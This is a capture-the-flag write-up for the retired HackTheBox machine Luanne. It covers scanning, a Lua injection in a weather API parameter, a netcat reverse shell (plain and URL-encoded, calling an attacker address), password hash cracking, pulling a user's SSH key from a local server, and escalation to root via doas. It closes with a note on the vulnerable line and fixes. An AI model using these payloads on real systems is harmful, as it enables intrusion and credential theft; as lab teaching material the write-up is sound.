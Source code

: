 ```yaml
---
title: HackTheBox - Luanne Writeup
subtitle: Here's my writeup for the RETIRED machine Luanne, Which is an Easy NetBSD machine!
# Summary for listings and search engines
summary: Here's my writeup for the RETIRED machine Luanne, Which is an Easy NetBSD machine!



# Link this post with a project
projects: []

# Date published
# Date published
date: "2021-03-27T00:00:00Z"

# Date updated
lastmod: "2021-03-27T00:00:00Z"
# Is this an unpublished draft?
draft: false

# Show this page in the Featured widget?
featured: false

# Featured image
# Place an image named `featured.jpg/png` in this page's folder and customize its options here.
image:
  caption: 'Image credit: [**HackTheBox**]'
  focal_point: ""
  placement: 2
  preview_only: false

authors:
- admin


tags:
- HackTheBox


---
```







# <p style="color:DArkRED">Information Gathering </p>
---
## <p style="color:Green">Nmap scan </p> 
```bash
sudo nmap -sC -sV 10.10.10.218 -v
```
<img src="nmap.png">

As we can see above, We have 3 PORTS open:
- Port 22 running OpenSSH 8.0 ; Recent version, no need waste time on it
- Port 80 running nginx ; robots.txt --> /weather
- Port 9001 running Medusa httpd 1.12 ; If we were on linux i think this should be something to look at
> Skipping the gobuster part, it will only show us robots.txt. I do prefer Dirb when it comes to directory bruteforcing

## <p style="color:Green">Dirb scan </p> 


> You can clone the SecLists repo from here https://github.com/danielmiessler/SecLists

We already got  **/weather/** from the nmap results, let's see enum more
```bash
dirb -R http://10.10.10.218/weather/ /opt/SecLists/Discovery/Web-Content/raft-small-directories.txt 
```
<img src="dirb.png">

---

# <p style="color:DArkRED">Foothold</p>
From our previous scans we were able to find
```url
http://10.10.10.218/weather/forecast/
```
<img src="forecast.png">
Let's try it as a GET param
<img src="get.png">
Adding a < ' > causes an error
<img src="luaerror.png">

> Skipping the SQL Injection part as it got me nothing 

Let's now try if we have any potential code injection.
Basically, The idea is to end the current lua command and inject.
Another think to note for lua a comment starts anywhere with a double hyphen ( -- ) and runs until the end of the line.

Let's first try this payload
```url
/weather/forecast?city=London');print("\nhi")--
```
<img src="print.png">
That worked! Let's try if we can use system commands

```url
/weather/forecast?city=London');print("\n");os.execute("id")--
```
<img src="id.png">

That worked aswell! Let's now get a reverse shell
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f
```
Final url encoded payload:
```url
/weather/forecast?city=%4c%6f%6e%64%6f%6e%27%29%3b%70%72%69%6e%74%28%22%5c%6e%22%29%3b%6f%73%2e%65%78%65%63%75%74%65%28%22%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%34%2e%33%39%20%31%32%33%34%20%3e%2f%74%6d%70%2f%66%22%29%2d%2d
```
Let's execute it and get a shell on the box
<img src="foothold.png">

---
# <p style="color:darkred">User PrivEsc</p>

We can see that we have the default  **.htpasswd** file which can contain potential passwords
<img src="pass.png">
Let's see what we got there
<img src="webapi.png">
```bash
echo "$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0" > hash ; john hash -w=/opt/rockyou.txt
```

And we cracked it!
<img src="best.png">

Let's start by viewing the running processes
> You need to specify the w tag to view the whole command

<img src="mich.png">
We can see that the user **r.michaels** is running a local server at port 3001! Let's exploit this to get his private SSH key!

```bash
curl http://127.0.0.1:3001/~r.michaels/id_rsa
```
But we get 401 Unauthorized page!

<img src="unauth.png">
Let's try the credentials that we got earlier

```bash
curl http://127.0.0.1:3001/~r.michaels/id_rsa --user webapi_user:iamthebest
```
<img src="ssh.png">
And it worked! Let's login to the user

<img src="user.png">

And we grab that user flag!

# <p style="color:darkred">Root PrivEsc</p>
An interesting backups file which contains an encrypted tar.gz file

<img src="back.png">

Because we're on an NetBSD box, we're gonna use netpgp to decrypt then extract its content

```bash
netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output=backup.tar.gz
```
<img src="tar.png">

Let's check that .htpasswd file!
<img src="root.png">
`webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.`

Let's crack this password with john!

<img src="pass_root.png">

`littlebear`

Let's try to switch to the root user with this password!

> https://www.vultr.com/docs/introduction-to-doas-on-NetBSD

```bash
doas su
```
<img src="roott.png">

And we rooted the box!

---

# <p style="color:darkred">Bonus Section</p>

Let's see what caused the lua injection!

```bash
cat /home/r.michaels/devel/webapi/weather.lua
```
Going through the code we can see the injection point!

```lua
httpd.write('"error": "unknown city: ' .. city .. '"}')
```
basically what we have done is
```lua
httpd.write('"error": "unknown city: hi');os.execute("id") -- '"}')
```
To avoid this kind of injection, we should validate and sanitize the "city" input. Scanning the city variable for escape characters and special symbols, making a blacklist for any suspicious word {os,execute,print,...} 
Or just by removing the '.. city ..' part!

## Thanks for reading hope you enjoyed it!


